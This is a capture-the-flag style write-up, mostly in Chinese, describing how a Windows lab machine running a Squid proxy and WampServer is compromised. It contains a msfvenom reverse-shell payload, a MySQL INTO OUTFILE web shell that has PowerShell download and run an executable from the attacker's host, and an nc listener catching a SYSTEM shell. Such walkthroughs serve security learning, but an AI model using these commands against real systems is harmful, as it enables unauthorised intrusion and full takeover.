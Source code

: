 # Squid
![image](https://hackmd.io/_uploads/rk2UCxhnJx.png)

## Solution
### 1. Recon
#### 1.1 Nmap
```
┌──(chw㉿CHW)-[~]
└─$ nmap -sC -sV -T4 -p- 192.168.133.189
...
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-22T09:15:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 354.50 seconds
```
> http proxy, RPC
### 2. enum4linux & smbclient
```
┌──(chw㉿CHW)-[~]
└─$ enum4linux -a 192.168.133.189

┌──(chw㉿CHW)-[~]
└─$ smbclient -N -L \\\\192.168.133.189\\
session setup failed: NT_STATUS_ACCESS_DENIED

```
> 皆沒有可用資訊

### 3. http-proxy scanner
使用 [spose](https://github.com/aancw/spose) 掛上 proxy 再掃描一次
```
┌──(chw㉿CHW)-[~/Tools]
└─$ git clone https://github.com/aancw/spose.git

┌──(chw㉿CHW)-[~/Tools/spose_http-proxy-scanner]
└─$ python3 spose.py --proxy http://192.168.133.189:3128 --target 192.168.133.189
Scanning default common ports
Using proxy address http://192.168.133.189:3128
192.168.133.189:3306 seems OPEN
192.168.133.189:8080 seems OPEN
```
> 發現 3306 & 8080

### 3. Browser http-proxy
Browser 掛上題目 http-proxy\
![image](https://hackmd.io/_uploads/BJz0f-3h1l.png)

瀏覽 192.168.133.189:8080\
![image](https://hackmd.io/_uploads/Hk1FFW3nJl.png)
> Wampserver 3.2.3\
> ![image](https://hackmd.io/_uploads/HJ4_hb33yl.png)


### 4. Dirb with proxy
```
┌──(chw㉿CHW)-[~]
└─$ dirb http://192.168.133.189:8080/ -p 192.168.133.189:3128
```
> 其實也不用爆破，192.168.133.189:8080
> 有顯示 `phpinfo()` 與 `phpMyadmin`

### 5. phpMyadmin
http://192.168.133.189:8080/phpmyadmin/index.php\
![image](https://hackmd.io/_uploads/SJFkJGhhyx.png)
> admin:amdin (失敗)
> root:{無密碼} (成功 ?!)

瀏覽資料庫:
- user\
![image](https://hackmd.io/_uploads/H1xq1z321g.png)

目標： 寫 revershell 進資料庫\
從 phpinfo() 中可以得知路徑在 `C:\wamp`\
 ![image](https://hackmd.io/_uploads/SkvAWzn21e.png)

### 6. Reverse Shell
#### 6.1 建立 Reverse Shell file
```
┌──(chw㉿CHW)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.165 LPORT=8888 -f exe -o chw_windows.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: chw_windows.exe

┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
#### 6.2 Ｗindows 指令注入 mysql
```
SELECT "<?php system('powershell -c \"Invoke-WebRequest -Uri http://192.168.45.165/chw_windows.exe -OutFile C:\\windows\\temp\\rs.exe; Start-Process C:\\windows\\temp\\rs.exe\"'); ?>"
INTO OUTFILE "C:/wamp/www/rev.php"
```
![image](https://hackmd.io/_uploads/B1I7wG2n1g.png)\
(Kali)\
開啟監聽 port
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.45.165] from (UNKNOWN) [192.168.133.189] 50486
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>

```

瀏覽 http://192.168.133.189:8080/rev.php

### 7. 取得 reverse shell
```
┌──(chw㉿CHW)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.45.165] from (UNKNOWN) [192.168.133.189] 50486
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\wamp\www>hostname
hostname
SQUID

C:\wamp\www>whoami
whoami
nt authority\system

```
### ✅ Get Root FLAG
> 在 `C:\Users\Administrator\Desktop`找到 Root flag
